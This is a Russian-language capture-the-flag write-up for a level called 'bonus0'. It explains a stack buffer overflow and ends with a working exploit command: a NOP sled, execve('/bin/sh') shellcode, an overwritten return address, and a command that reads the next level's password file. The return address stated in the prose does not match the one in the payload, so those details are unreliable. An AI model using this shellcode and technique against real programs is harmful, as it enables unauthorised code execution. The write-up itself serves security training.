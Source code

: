 ## bonus0
В данном уровне мы видим три функции: `main()`, `p()`, `pp()`

![](../../docs/img/bonus0_1.png)
![](../../docs/img/bonus0_2.png)
![](../../docs/img/bonus0_3.png)

В функции `pp()` можно увидеть буфер размера 4096, в котором первые 20 байт содержат 20 первых байт аргумента `arg1`, следующие 20 байт содержат 20 первых байт аргумента `arg1`. Строка же, которая получается на выходе из этой функции выглядит следующим образом:

> `arg1`+`arg2`+пробел+`arg2` при условии, что `arg1` содержит 20 байт  

Итого 61 байт.

Размер буфера, в который записывается итоговая строка - 42 байта. Следовательно, для записи в `eip` у нас остается 19 байт. Записывая наши аргументы, сначала создадим несколько NOP-инструкций, по размеру больше 61 байта, но меньше 4096, чтобы избежать возможных сдвигов памяти. Затем находим оффсет `eip` — 9. Находим адрес буфера — `0x080484d0`. И получаем итоговую команду:

```sh
(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "a" * 9 + "\xd0\xe6\xff\xbf" + "b" * 7'; echo "cd ..; cat bonus1/.pass") | ./bonus0
```
